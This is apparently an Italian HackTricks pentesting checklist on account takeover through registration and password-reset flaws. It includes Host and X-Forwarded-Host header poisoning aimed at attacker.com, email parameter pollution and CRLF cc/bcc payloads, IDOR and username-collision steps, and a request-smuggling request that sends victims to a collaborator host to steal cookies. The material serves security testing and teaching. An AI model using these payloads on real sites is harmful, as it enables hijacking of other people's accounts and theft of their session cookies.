 # Vulnerabilità di registrazione e takeover

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Takeover di registrazione

### Registrazione duplicata

* Prova a generare utilizzando un nome utente esistente
* Verifica la variazione dell'email:
* maiuscole
* \+1@
* aggiungi qualche punto nell'email
* caratteri speciali nel nome dell'email (%00, %09, %20)
* Metti caratteri neri dopo l'email: `test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### Enumerazione degli username

Verifica se puoi capire quando un nome utente è già stato registrato nell'applicazione.

### Politica delle password

Creando un utente, verifica la politica delle password (verifica se puoi utilizzare password deboli).\
In tal caso, potresti provare a forzare le credenziali.

### SQL Injection

[**Controlla questa pagina**](sql-injection/#insert-statement) per imparare come tentare il takeover dell'account o estrarre informazioni tramite **SQL Injections** nei moduli di registrazione.

### Takeover di Oauth

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### Vulnerabilità di SAML

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### Cambio email

Quando ti registri, prova a cambiare l'email e verifica se questa modifica viene correttamente convalidata o se puoi cambiarla in email arbitrarie.

### Altri controlli

* Verifica se puoi utilizzare **email usa e getta**
* **Password** **lunga** (>200) porta a **DoS**
* **Verifica i limiti di velocità sulla creazione dell'account**
* Utilizza username@**burp\_collab**.net e analizza il **callback**

## **Takeover del reset della password**

### Fuga del token di reset della password tramite referrer <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Richiedi il reset della password al tuo indirizzo email
2. Fai clic sul link di reset della password
3. Non cambiare la password
4. Fai clic su qualsiasi sito di terze parti (ad esempio: Facebook, Twitter)
5. Intercepisci la richiesta in Burp Suite proxy
6. Verifica se l'intestazione referer sta rivelando il token di reset della password.

### Avvelenamento del reset della password <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Intercepisci la richiesta di reset della password in Burp Suite
2. Aggiungi o modifica le seguenti intestazioni in Burp Suite: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Inoltra la richiesta con l'intestazione modificata\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Cerca un URL di reset della password basato sull'intestazione _host_ come: `https://attacker.com/reset-password.php?token=TOKEN`

### Reset della password tramite parametro email <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR sui parametri API <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. L'attaccante deve effettuare il login con il proprio account e accedere alla funzione **Cambia password**.
2. Avviare Burp Suite e intercettare la richiesta.
3. Inviare la richiesta alla scheda repeater e modificare i parametri: ID utente/email\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Token di reset password debole <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Il token di reset password dovrebbe essere generato casualmente e unico ogni volta.\
Cerca di determinare se il token scade o se è sempre lo stesso, in alcuni casi l'algoritmo di generazione è debole e può essere indovinato. Le seguenti variabili potrebbero essere utilizzate dall'algoritmo.

* Timestamp
* ID utente
* Email dell'utente
* Nome e cognome
* Data di nascita
* Crittografia
* Solo numeri
* Sequenza di token breve (caratteri tra \[A-Z,a-z,0-9])
* Riutilizzo del token
* Data di scadenza del token

### Divulgazione del token di reset password <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Genera una richiesta di reset password utilizzando l'API/UI per un'email specifica, ad esempio: test@mail.com
2. Ispeziona la risposta del server e controlla il campo `resetToken`
3. Utilizza quindi il token in un URL come `https://example.com/v3/user/password/reset?resetToken=[IL_RESET_TOKEN]&email=[LA_MAIL]`

### Reset password tramite collisione di username <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Registrati nel sistema con un nome utente identico a quello della vittima, ma con spazi bianchi inseriti prima e/o dopo il nome utente, ad esempio: `"admin "`
2. Richiedi un reset password con il tuo nome utente malevolo.
3. Utilizza il token inviato alla tua email e reimposta la password della vittima.
4. Accedi all'account della vittima con la nuova password.

La piattaforma CTFd era vulnerabile a questo attacco.\
Vedi: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Takeover dell'account tramite Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Trova una XSS all'interno dell'applicazione o di un sottodominio se i cookie sono limitati al dominio principale: `*.domain.com`
2. Divulga il cookie di sessione corrente.
3. Autenticati come l'utente utilizzando il cookie.

### Takeover dell'account tramite HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Utilizza **smuggler** per rilevare il tipo di HTTP Request Smuggling (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Crea una richiesta che sovrascriverà `POST / HTTP/1.1` con i seguenti dati:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` con l'obiettivo di reindirizzare le vittime a burpcollab e rubare i loro cookie\
3\. La richiesta finale potrebbe assomigliare alla seguente
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
I report di Hackerone che sfruttano questo bug\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Account Takeover tramite CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Creare un payload per il CSRF, ad esempio: "Modulo HTML con invio automatico per il cambio password"
2. Inviare il payload

### Account Takeover tramite JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

Il JSON Web Token potrebbe essere utilizzato per autenticare un utente.

* Modificare il JWT con un altro ID utente / Email
* Verificare la firma debole del JWT

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## Riferimenti

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
